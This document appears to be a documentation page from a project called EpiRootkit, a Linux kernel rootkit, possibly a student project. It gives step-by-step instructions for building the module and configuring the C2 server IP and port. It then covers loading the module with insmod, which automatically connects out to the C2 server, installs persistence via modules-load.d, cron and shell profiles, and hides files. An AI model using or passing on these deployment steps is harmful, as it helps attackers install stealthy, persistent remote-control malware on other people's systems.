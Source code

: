 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 43
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)
- **Architecture**: x86_64

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```

## Build Process

### 1. Navigate to Rootkit Directory
```bash
cd rootkit
```

### 2. Build the Module
```bash
make clean && make
```

**Expected output:**
```
make -C /lib/modules/5.4.0-74-generic/build M=/path/to/rootkit modules
  CC [M]  /path/to/rootkit/core/main.o
  CC [M]  /path/to/rootkit/commands/commands.o
  CC [M]  /path/to/rootkit/commands/auth_commands.o
  CC [M]  /path/to/rootkit/commands/exec_commands.o
  CC [M]  /path/to/rootkit/commands/file_commands.o
  CC [M]  /path/to/rootkit/commands/status_commands.o
  CC [M]  /path/to/rootkit/commands/stealth_commands.o
  CC [M]  /path/to/rootkit/network/connection.o
  CC [M]  /path/to/rootkit/network/socket.o
  CC [M]  /path/to/rootkit/network/keepalive.o
  CC [M]  /path/to/rootkit/stealth/stealth.o
  CC [M]  /path/to/rootkit/persistence/persistence.o
  CC [M]  /path/to/rootkit/security/auth.o
  CC [M]  /path/to/rootkit/utils/utils.o
  LD [M]  /path/to/rootkit/epirootkit.ko
```

### 3. Verify Build
```bash
ls -la epirootkit.ko
file epirootkit.ko
```

Should show: `ELF 64-bit LSB relocatable, x86-64`

## Configuration

### Network Settings
Edit `rootkit/core/config.h` before building:

```c
#define C2_SERVER_IP "192.168.64.1"    // Your C2 server IP
#define C2_SERVER_PORT 4444             // C2 server port
```

### Feature Settings
```c
#define ENABLE_ENCRYPTION 0      // Encryption disabled
#define ENABLE_PERSISTENCE 1     // Auto-install persistence
#define ENABLE_FILE_HIDING 1     // Hide files with prefixes
```

## Loading the Module

### Load Rootkit
```bash
sudo insmod epirootkit.ko
```

### Verify Loading
```bash
# Check if loaded (may be hidden if stealth enabled)
lsmod | grep epirootkit

# Check kernel messages
dmesg | tail -10
```

**Expected kernel messages:**
```
[  123.456] EpiRootkit: Starting initialization (v1.0.0)
[  123.457] EpiRootkit: Connection module initialized
[  123.458] EpiRootkit: Stealth module initialized
[  123.459] EpiRootkit: Persistence module initialized
[  123.460] EpiRootkit: All subsystems initialized successfully
[  123.461] EpiRootkit: Attempting connection to 192.168.64.1:4444
```

## Automatic Features

When the module loads, it automatically:

1. **Connects to C2 server** (if running)
2. **Installs persistence** (modules-load.d, cron, shell profiles)
3. **Enables file hiding** (hides files with specific prefixes)
4. **Starts keepalive system** (60-second ping/pong)

## Module Management

### Unload Module
```bash
sudo rmmod epirootkit
```

### Remove Persistence
```bash
# Remove all persistence mechanisms
sudo rm -f /etc/modules-load.d/epirootkit.conf
sudo rm -f /etc/cron.d/epirootkit
sudo rm -f /etc/profile.d/epirootkit.sh
```

### Clean Build
```bash
make clean
```

## Troubleshooting

### Build Errors

**Missing headers:**
```bash
sudo apt install linux-headers-$(uname -r)
```

**Wrong kernel version:**
```bash
uname -r  # Must be 5.4.0-*
```

### Loading Errors

**Check detailed errors:**
```bash
dmesg | grep -i error
```

**Module info:**
```bash
modinfo epirootkit.ko
```

### Connection Issues

**Check C2 server:**
```bash
netstat -tulpn | grep 4444
```

**Verify IP configuration:**
```bash
grep C2_SERVER_IP rootkit/core/config.h
```

## File Structure

After building, you'll have:
```
rootkit/
├── epirootkit.ko          # Main kernel module
├── Module.symvers         # Symbol versions
├── modules.order          # Module order
├── *.o                    # Object files
└── .*.cmd                 # Build commands
```

## Next Steps

1. **[Start C2 Server](../03-attacking-program/overview.md)**: Set up command & control
2. **[Authentication](./connection-authentication.md)**: Connect and authenticate
3. **[Use Commands](./features/command-execution.md)**: Execute remote commands

